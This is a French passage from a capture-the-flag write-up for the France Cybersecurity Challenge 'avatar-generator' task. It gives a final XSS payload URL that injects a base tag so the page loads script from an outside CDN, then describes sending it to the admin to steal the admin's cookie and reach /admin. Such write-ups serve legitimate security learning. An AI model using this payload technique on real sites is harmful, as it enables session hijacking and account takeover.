 
Payload final:
```
https://avatar-generator.france-cybersecurity-challenge.fr/index.php?seed=304704&primary=%23e67e22&secondary=%3C/%3E%3Cbase%20href=https://rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/notyf.min.js/..%252F..%252F..%252F..%252F../Eteckq/avatar/623eb51970ffec1f984df536757c1689b6c5f36a/%3E#debug
```

1 seconde après avoir injecté le payload, le script est bien lancé !

Il ne reste plus qu'à envoyer cette url à l'admin dans le formulaire de contact, attendre qu'il execute la page, et récupérer son cookie.

Nous pouvons ensuite nous rendre sur la page /admin

<img src="images/a7.PNG" height="100%" width="100%">
